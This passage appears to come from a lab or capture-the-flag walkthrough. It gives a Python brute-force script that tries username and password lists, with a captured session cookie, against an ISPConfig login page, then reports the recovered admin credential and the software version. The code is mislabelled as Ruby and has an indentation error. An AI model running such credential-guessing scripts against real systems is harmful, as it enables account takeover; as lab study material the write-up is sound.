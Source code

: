 > Is time to craft our custom script to verify a valid credential.
</div>

####
```ruby
#!/usr/bin/python3

import requests
from time import sleep
from pwn import log

def main():
    url = 'http://localhost:8080/login'

    users = [
    	"admin",
    	"amanda",
    	"tobias",
    	"kavi",
    	"e0Al5",
    	"det0xgravity",
    	"dario"
    ]

    passwords = [
    	"slowmotionapocalypse",
    	"admin",
    	"test123",
    	"dario",
    	"arHkG7HAI68X8s1J"
    ]

    cookies = {
    	"ISPCSESS" : "2skbde830c1d3um1gnh1mtv1gl"
    }
    
    bar = log.progress("Brute force attack...")

    for user in users:
    	for password in passwords:
            data = {
                "username" : user,
                "password" : password,
                "s_mod" : "login",
                "s_pg" : "index"
            }           
            try:
                bar.status(f"Trying {user}:{password} credential")
                response = requests.post(url=url, cookies=cookies, data=data, timeout=5, allow_redirects=False)
                if response.status_code == 302:
                    print()
                    log.success(f"{user}:{password} are valid")
            except: pass
                sleep(5)

if __name__ == '__main__':
    main()
```
####
This was possible because we intercept a authentication attempt login and we can get the data format and the cookie. So with this data now is possible to craft a custom script, after execute the script a valid credential was reported `admin:slowmotionapocalypse are valid`. Navigating into the dashboard we discovered a version *ISP Config 3.2.1*.